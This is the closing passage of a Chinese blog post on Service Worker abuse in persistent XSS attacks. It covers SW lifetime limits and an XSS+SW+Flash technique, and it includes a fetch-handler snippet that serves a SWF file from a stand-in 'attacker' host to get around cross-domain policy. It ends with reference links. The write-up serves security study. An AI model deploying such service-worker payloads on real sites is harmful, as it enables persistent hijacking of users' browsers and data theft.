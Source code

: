 

## SW的限制二：生命周期

出于安全性的考虑，每个SW都有时间限制，在注册24小时后，原先的HTTP缓存就会实现，也就是一般意义上来说，这种持久化xss效果仍然有限。


## XSS+SW+Flash

当我们可以在站内控制上传或者创建一个flash时（only firefox）

然后用SW注册这个flash
```
onfetch=e=>{
    e.respondWith(fetch("//attacker/poc.swf"))
}
```

当站`http://example.com`内的crossdomain像这样时
```
<?xml
version="1.0"?>
<cross-domain-policy>
<allow-access-from
domain="example.jp" />
</cross-domain-policy>
```

我们可以通过在`example.jp`上创建恶意flash，来读取`http://example.com`的信息，这是一种某种程度上的SOP绕过（虽然并不是真的）。


在cure53 2016年的xss挑战赛就提到了这种操作

[https://github.com/cure53/XSSChallengeWiki/wiki/XSSMas-Challenge-2016](https://github.com/cure53/XSSChallengeWiki/wiki/XSSMas-Challenge-2016)


# 写在最后 #

写了这么多，但Service Worker的攻击利用向可以说是非常苛刻了，再加上w3c标准的不断改进，许多以前的利用方式都没办法再用了，但Service Worker本身需要的获取请求返回的权限却永远也去不掉，在这基础上，尽管利用方式有限，但在配合xss的持久化上能造成可怕的危害，至于好不好用，可能就是仁者见仁智者见智了。

# REF #

- [https://sakurity.com/blog/2015/08/13/middlekit.html](https://sakurity.com/blog/2015/08/13/middlekit.html)

- [https://www.html5rocks.com/en/tutorials/appcache/beginner/](https://www.html5rocks.com/en/tutorials/appcache/beginner/)

- [https://www.w3.org/TR/service-workers/](https://www.w3.org/TR/service-workers/)

- [https://speakerdeck.com/masatokinugawa/pwa-study-sw](https://speakerdeck.com/masatokinugawa/pwa-study-sw)

- [https://zhuanlan.zhihu.com/p/29734820](https://zhuanlan.zhihu.com/p/29734820)

- [https://paper.seebug.org/177/](https://paper.seebug.org/177/)

- [http://drops.xmd5.com/static/drops/web-10798.html](http://drops.xmd5.com/static/drops/web-10798.html)

  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9ikc1hbn085eecbpip9k4qhs/image.png
